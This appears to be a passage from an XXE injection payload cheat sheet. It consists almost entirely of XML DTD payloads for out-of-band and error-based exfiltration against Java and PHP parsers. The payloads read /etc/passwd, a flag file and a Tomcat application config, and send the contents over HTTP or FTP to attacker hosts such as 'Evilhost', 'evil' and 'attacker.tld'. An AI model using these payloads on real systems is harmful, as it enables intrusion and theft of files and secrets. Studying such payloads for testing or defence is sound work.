 - External dtd



```xml-dtd
<!ENTITY % param3 "<!ENTITY &#x25; exfil SYSTEM 'ftp://Evilhost:port/%data3;'>">
```
#### OOB extra ERROR -- Java
```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE r [
<!ENTITY % data3 SYSTEM "file:///etc/passwd">
<!ENTITY % sp SYSTEM "http://x.x.x.x:8080/ss5.dtd">
%sp;
%param3;
%exfil;
]>
<r></r>
```

- External dtd



```xml-dtd
<!ENTITY % param1 '<!ENTITY &#x25; external SYSTEM "file:///nothere/%payload;">'> %param1; %external;
```
#### OoB XXE Base64 -- PHP
```xml-dtd
<!DOCTYPE convert [
<!ENTITY % remote SYSTEM "http://xx.xx.xx.xx:8080/config.dtd">
%remote;%int;%send;
]>
<!-- config.dtd的内容 -->
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://xx.xx.xx.xx:8080/index.php?flag=%file;'>">
```
#### OOB extra nice
```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
 <!ENTITY % start "<![CDATA[">
 <!ENTITY % stuff SYSTEM "file:///usr/local/tomcat/webapps/customapp/WEB-INF/applicationContext.xml ">
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://evil/evil.xml">
%dtd;
]>
<root>&all;</root>
```

- External dtd



```xml-dtd
<!ENTITY all "%start;%stuff;%end;">
```
#### File-not-found exception based extraction
```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [  
  <!ENTITY % one SYSTEM "http://attacker.tld/dtd-part" >
  %one;
  %two;
  %four;
]>
```
